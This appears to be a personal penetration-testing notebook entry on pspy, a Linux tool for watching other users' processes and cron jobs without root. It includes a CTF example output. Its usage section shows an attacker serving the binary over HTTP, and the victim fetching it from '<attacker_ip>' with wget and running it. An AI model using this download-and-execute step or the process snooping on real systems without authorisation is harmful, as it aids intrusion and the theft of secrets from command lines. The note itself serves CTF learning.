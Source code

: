 # 💢 pspy
Tags: #💢
Related to: [[Vulnerability Analysis]]
See also:
Previous:

## Description

pspy is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. Great for enumeration of Linux systems in CTFs. Also great to demonstrate your colleagues why passing secrets as arguments on the command line is a bad idea.

The tool gathers the info from procfs scans. Inotify watchers placed on selected parts of the file system trigger these scans to catch short-lived processes.

## Usage Examples

### Spy on processes

Attacker:

	python3 -m http.server 80

Victim:

	wget <attacker_ip>/pspy64
	chmod +x pspy64
	./pspy64

root runs `cleanup.sh` as woodenk:

```text
     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░
CMD: UID=113  PID=914    | /usr/sbin/mysqld
CMD: UID=1000 PID=882    | java -jar /opt/panda_search/target/panda_search-0.0.1-SNAPSHOT.jar

CMD: UID=0    PID=22536  | /bin/sh -c sudo -u woodenk /opt/cleanup.sh
CMD: UID=1000 PID=22543  | /bin/bash /opt/cleanup.sh 
CMD: UID=1000 PID=22544  | /usr/bin/find /var/tmp -name *.xml -exec rm -rf {} ; 
CMD: UID=1000 PID=22563  | /usr/bin/find /var/tmp -name *.jpg -exec rm -rf {} ;
CMD: UID=1000 PID=22555  | /usr/bin/find /home/woodenk -name *.xml -exec rm -rf {} ; 
CMD: UID=1000 PID=22565  | /usr/bin/find /home/woodenk -name *.jpg -exec rm -rf {} ;
```

# References

https://github.com/DominicBreuker/pspy/releases